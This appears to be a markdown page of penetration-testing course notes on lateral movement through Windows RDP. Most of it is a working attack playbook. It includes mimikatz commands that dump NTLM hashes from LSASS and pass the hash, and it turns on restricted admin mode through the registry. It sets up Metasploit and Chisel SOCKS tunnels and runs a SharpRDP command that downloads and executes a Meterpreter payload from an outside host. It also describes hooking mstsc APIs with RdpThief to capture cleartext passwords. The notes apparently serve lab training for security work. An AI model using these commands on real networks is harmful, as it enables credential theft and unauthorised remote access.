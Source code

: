 ##RDP

RDP is a multichannel network protocol developed by Microsoft and is used for communication
between Terminal Servers and their clients. When an RDP connection is created, the NTLM hashes will reside in memory for the duration of
the session. The session does not terminate without a proper logout, which means simply
disconnecting from the sessions will leave the hashes in memory.We can dump the hash if we find a RDP jump server.

```
mimikatz # privilege::debug
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
```

We can also use /restrictedadmin argument to mstsc.exe, so we don't need to supply clear text password to RDP

pass the hassh, and lauch a mstsc.exe with admin's hash
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:admin /domain:corp1
/ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```
In the case that restrictedadmin is disable on target machine, we can enable it first.

lanuch an admin powershell
```
mimikatz # sekurlsa::pth /user:admin /domain:corp1
/ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
```
Access to remote resource through a powershell session and enable the restrictedadmin mode
```
PS C:\Windows\system32> Enter-PSSession -Computer appsrv01

[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

#### Reverse RDP Proxying with metasploit

configure a reverse tunnel through the Meterpreter session and use that with a SOCKS proxy

```
msf5 exploit(multi/handler) > use multi/manage/autoroute
msf5 post(multi/manage/autoroute) > set session 1
msf5 post(multi/manage/autoroute) > exploit

```

```
post(multi/manage/autoroute) > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf5 auxiliary(server/socks4a) > exploit -j
```

add proxy rules
```
kali@kali:~$ sudo bash -c 'echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf'
```

RDP to remote target
```
kali@kali:~$ proxychains rdesktop 192.168.120.10
```

#### Reverse RDP Proxying with Chisel
[Chisel](https://github.com/jpillora/chisel.git) is an open-source tunneling software written in Golang. It works by setting up a TCP
tunnel and performing data transfers over HTTP, while securing it with SSH.

compile chisel on Kali with the go build
```
kali@kali:~$ sudo apt install golang
kali@kali:~$ git clone https://github.com/jpillora/chisel.git
kali@kali:~$ cd chisel/
kali@kali:~/chisel$ go build
```

commpile Chisel for windows exe, -ldflags -s -w to strip debugging info

```
env GOOS=windows GOARCH=amd64 go build -o chisel.exe -ldflags "-s -w"
```

Set up the chisel server on kali
```
kali@kali:~/chisel$ ./chisel server -p 8080 --socks5
```

enable ssh password fo the tunnel, and set up ssh portfoward
```
kali@kali:~$ sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/g' /etc/ssh/sshd_config
kali@kali:~$ sudo systemctl start ssh.service
kali@kali:~$ ssh -N -D 0.0.0.0:1080 localhost
```

trafer chisel.exe to windows, and run the client to connect to kali server
```
C:\Tools> chisel.exe client kaliserverIP:8080 socks
```

now RDP with proxychains
```
kali@kali:~$ sudo proxychains rdesktop 192.168.120.10
```

#### RDP remote code execution
The RDP application (mstsc.exe) builds upon the terminal services library mstscax.dll. This
library exposes interfaces to both scripts and compiled code through COM objects. We can use a tool called [SharpRDP](https://github.com/0xthirteen/SharpRDP) to exeucte command remotely using RDP.
```
C:\Tools> sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
```
#### Steal Credentials from RDP

We can modify APIs and redirect execution to custom code. we could overwrite the initial instructions of an API at the assembly level with code that transfers
execution to any custom code we want. The Microsoft-provided unmanaged (Detours library)[https://github.com/microsoft/Detours/wiki/Using-Detours] makes this possible.

Our goal is to leverage API hooking to steal the clear text credentials entered into mstsc when
they are processed by relevant APIs. APIs responsible for handling
the username, password, and domain are CredIsMarshaledCredentialW, CryptProtectMemory,
and SspiPrepareForCredRead.

As a result of this research, MDSec released [RdpThief](https://github.com/0x09AL/RdpThief), which uses Detours to hook these APIs.
The hooks in this tool will execute code that copies the username, password, and domain to a file.
Finally, RdpThief allows the original code execution to continue as intended.

We can create a c# script, [rdpinject.cs](/11WindowsLateralMovement/rdpinject.cs) to search all the mstsc,rdp process, then inject Rdpthief.dll into the code, execute our code ,get password/username and resume program execution. 
